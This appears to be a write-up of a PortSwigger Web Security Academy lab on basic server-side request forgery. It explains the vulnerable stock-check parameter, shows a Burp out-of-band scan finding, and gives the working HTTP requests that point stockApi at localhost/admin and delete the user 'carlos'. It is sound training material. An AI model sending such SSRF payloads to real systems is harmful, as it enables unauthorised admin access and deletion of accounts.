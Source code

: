 # [Lab: Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

## Lab

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## Context

a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs, dependent on the product and store in question. The function is implemented by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. So when a user views the stock status for an item, their browser makes a request like this:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this situation, an attacker can modify the request to specify a URL local to the server itself. For example:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

Here, the server will fetch the contents of the `/admin` URL and return it to the user.

Now of course, the attacker could just visit the `/admin` URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the `/admin` URL comes from the local machine itself, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.

## Scan

- Burpsuite scanner: detected `Out-of-band resource load (HTTP)`
  - body: `stockApi=http://knbwyjlwtx7jmf2crvupaw6roiuci26vunhd52.oastify.com/product/stock/check?productId=2&storeId=1`

## Exploit

1. burp's repeater:

    - original:

        ```http
        POST /product/stock HTTP/1.1
        Host: id.web-security-academy.net

        stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2 
        ```

    - modified:

        ```http
        POST /product/stock HTTP/1.1
        Host: id.web-security-academy.net
        ...

        stockApi=http%3a//localhost/admin
        ```

    - result:

        ![admin-panel](./../img/lab-1-admin-panel.png)

2. solve lab:

    ```http
    POST /product/stock HTTP/1.1
    Host: id.web-security-academy.net
    ...

    stockApi=http%3a//localhost/admin/delete?username=carlos
    ```
